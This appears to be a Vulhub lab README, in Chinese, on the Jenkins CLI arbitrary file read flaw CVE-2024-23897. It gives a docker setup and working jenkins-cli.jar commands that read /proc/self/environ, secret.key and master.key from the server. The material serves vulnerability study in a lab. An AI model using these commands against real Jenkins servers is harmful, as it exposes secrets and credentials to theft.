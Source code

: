 # Jenkins CLI 接口任意文件读取漏洞（CVE-2024-23897）

Jenkins是一个开源的自动化服务器。

Jenkins使用[args4j](https://github.com/kohsuke/args4j)来解析命令行输入，并支持通过HTTP、Websocket等协议远程传入命令行参数。args4j中用户可以通过`@`字符来加载任意文件，这导致攻击者可以通过该特性来读取服务器上的任意文件。

该漏洞影响Jenkins 2.441及以前的版本。

参考链接：

- <https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314>
- <https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw>

## 漏洞环境

执行如下命令启动一个Jenkins server 2.441：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8080/`即可查看到Jenkins登录页面，默认的管理员帐号密码为`admin`和`vulhub`。

## 漏洞复现

利用该漏洞可以直接使用官方提供的命令行客户端，在`http://localhost:8080/jnlpJars/jenkins-cli.jar`下载。

使用该工具读取目标服务器的`/proc/self/environ`文件，可以找到Jenkins的基础目录，`JENKINS_HOME=/var/jenkins_home`：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/proc/self/environ"
```

![](1.png)

然后，可在该目录下读取敏感文件，如`secrets.key` or `master.key`（匿名情况下，只能通过命令行的报错读取文件的第一行）：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/var/jenkins_home/secret.key"
```

![](2.png)

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http version "@/var/jenkins_home/secrets/master.key"
```

![](3.png)

如果拥有用户权限，可以利用`connect-node`命令读取完整文件内容，例如：

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http -auth "admin:vulhub" connect-node "@/var/jenkins_home/"
```

![](4.png)
